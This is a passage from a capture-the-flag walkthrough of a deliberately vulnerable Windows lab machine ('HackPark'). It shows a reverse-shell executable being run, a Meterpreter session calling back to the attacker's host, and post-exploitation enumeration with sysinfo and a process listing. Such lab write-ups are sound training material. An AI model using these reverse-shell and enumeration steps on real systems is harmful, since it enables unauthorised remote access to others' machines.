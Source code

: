08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
05/17/2020  07:01 AM            73,802 revshell.exe
08/06/2019  02:13 PM                21 stage1-complete.txt
08/06/2019  02:13 PM            28,495 stage1.txt
05/12/2019  09:03 PM           113,328 svcexec.exe
08/06/2019  02:13 PM                67 tmp.dat
              13 File(s)        708,784 bytes
               2 Dir(s)  39,143,284,736 bytes free
.\revshell.exe
c:\Windows\Temp>.\revshell.exe

In your `msfconsole`, you should now have a meterpreter:

[*] Sending stage (176195 bytes) to 10.10.79.198
[*] Meterpreter session 1 opened (10.9.**.**:2345 -> 10.10.79.198:54675) at 2020-05-17 16:05:38 +0200

meterpreter > 

## #4.2

**Instructions**

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.

What is the OS version of this windows machine?

**Answer**

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

Answer: `Windows 2012 R2 (6.3 Build 9600)`

## #4.3 - Further enumerate the machine. What is the name of the abnormal service running?

_Hint: Check in the `C:\Program Files (x86)` directory and go from there. Remember, you can use meterpreter to check all running processes on the machine._

meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]                                       
 4     0     System                                                 
 360   676   svchost.exe                                            
 376   4     smss.exe                                               
 528   520   csrss.exe                                              
 580   572   csrss.exe                                              
 592   520   wininit.exe                                            
 616   572   winlogon.exe                                           
 676   592   services.exe                                           
 684   592   lsass.exe                                              
 744   676   svchost.exe                                            
 788   676   svchost.exe                                            